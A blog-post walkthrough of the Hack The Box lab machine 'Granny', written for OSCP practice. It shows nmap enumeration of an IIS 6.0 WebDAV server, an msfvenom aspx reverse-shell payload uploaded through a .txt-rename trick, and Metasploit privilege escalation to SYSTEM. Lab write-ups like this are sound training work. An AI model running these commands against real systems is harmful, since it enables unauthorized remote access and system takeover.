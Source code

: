 ```yaml
---
layout: post
title: "HTB-Granny"
categories: HTB-Walkthrough
---
```



![granny](/assets/img/granny/granny1.png)


Granny is another OSCP-like box from the HTB 'retired' archive.

Nmap first as always.

<h3>Nmap</h3>

`nmap -sV -Pn -p- --min-rate 10000 10.10.10.15 |tee -a gran.txt`

```

Nmap scan report for 10.10.10.15
Host is up (0.11s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Browsing to the website reveals an 'under construction' message.

Scanning again with nmap, with the more robust and agressive `-A` flag might reveal more.

`nmap -A -p80 10.10.10.15 |tee -a gran.txt`

```

Nmap scan report for 10.10.10.15
Host is up (0.096s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Wed, 04 Mar 2020 21:06:04 GMT
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows Server 2003 SP1 or SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops                                                                                           
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                                                           
                                                                                                                   
TRACEROUTE (using port 80/tcp)                                                                                     
HOP RTT      ADDRESS                                                                                               
1   96.75 ms 10.10.14.1                                                                                            
2   98.21 ms 10.10.10.15                                                                                           
                                                                                                                   
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .              
Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds 

```

The results suggest that the service is a 'WebDav' server, we can connect and enumerate them from the
 terminal with both `curl` and `cadaver`.

I'll be using [cadaver](http://www.webdav.org/cadaver/) this time, and with time permitting, I'll repeat these steps with curl.



<hr width="250" size="6">


<h3>Cadaver-WebDav-Tool</h3>

The command to connect with the service in this case is simple.

`cadaver http://10.10.10.15`

![cadaver](/assets/img/granny/granny-cadaver.png)

Spend some time browsing the webdav, use the `get` command to download files, and read them. Cadaver is an useful tool
to get comfortable with, and will come in useful, both in HTB pentesting labs, and the PWK labs in preperation for the OSCP exam.


<hr width="250" size="6">


The 'aspnet_client' folder suggests that we can probably upload an evil aspx reverse shell to gain access
to the target. Just as cadaver allows us to `get` files, it also allows us to `put` files onto the target.

We can generate a payload with msfvenom:
```
msfvenom -p windows/meterpreter/reverse_tcp -f aspx lhost=10.10.14.14 lport=443 -o evil.aspx
```

`put evil.aspx` attempts the upload, but fails `403 Forbidden`.

We can try to rename the payload to evil.txt, upload it, then use the `move` command to change the extension back to .aspx once its on the server.

```
dav:/> put evil1.txt
Uploading evil1.txt to `/evil1.txt':
Progress: [=============================>] 100.0% of 2810 bytes succeeded.

dav:/> move evil1.txt evil.aspx
Moving `/evil1.txt' to `/evil.aspx':  succeeded.
```

We need to use msfconsole's `exploit/multi/handler` with the correct payload set to get the returning shell.

To trigger the exploit, browse to 'http://10.10.10.15/evil.aspx'


![meterpreter](/assets/img/granny/granny-exploit-met.png)


```
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```


<h3>Privilege Escalation</h3>

To escalate to 'System' we can use the windows exploit suggester.

```

meterpreter > bg
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 29 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

```

I selected ms14_070 from the list and give it a try...

```

msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_070_tcpip_ioctl
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > show options

Module options (exploit/windows/local/ms14_070_tcpip_ioctl):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows Server 2003 SP2


msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > exploit

[*] Started reverse TCP handler on 192.168.106.128:4444 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Exploit completed, but no session was created.

```

We can return to our meterpreter session by using the command `sessions 1`.

now when we check our status, we can confirm that the exploit worked and we now have System privs.

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Now we just have to find the flags.

```
meterpreter > cat user.txt
70xxxxxxxxxxxxxxxxxxxxxxxxxxxxd1

meterpreter > cat root.txt
aaxxxxxxxxxxxxxxxxxxxxxxxxxxxxe9
```

:)



